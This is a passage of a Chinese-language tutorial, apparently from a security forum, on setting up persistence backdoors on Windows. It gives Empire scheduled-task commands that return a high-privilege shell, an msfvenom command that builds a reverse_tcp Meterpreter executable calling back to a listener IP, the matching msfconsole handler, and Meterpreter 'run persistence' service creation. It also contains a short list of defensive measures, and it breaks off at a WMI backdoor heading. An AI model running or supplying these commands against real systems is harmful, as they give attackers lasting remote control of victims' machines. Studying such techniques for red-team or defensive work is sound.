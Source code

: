 设置DailyTime和Listener参数，到了设置的时间，将执行sec计划，将返回一个高权限的shell：

```csharp
usemodule persistence/elevated/schtasks
set DailyTime 15:36
set Listener dayu
execute
```

### 计划任务后门防范措施

有效的防范措施是:

- 安装安全防护软件并对系统进行扫描
- 及时为系统打补丁
- 在内网中使用强度较高的密码

MSF后门
-----

- 生成exe的马儿

```csharp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.253.9 LPORT=4444 -f exe>1.exe
```

- 开启监听

```csharp
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_ tcp; set lhost 192.168.253.27; set lport 4444; exploit -j;"
```

- 执行后门上线
- 查看帮助

```csharp
run persistence -h
```

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-50479f04fa93b61d7754dcf372c19b1a3d28c362.png)

- 创建服务

```csharp
run persistence -S -U -X -i 5 -p 443 -r IP
```

这里要注意的是

使用了-S 这个参数

需要（system）权限才能执行创建

不管关机 重启后都可以上线

wmi型后门
------

在 Empire 下使用Invoke-WMI 模块:
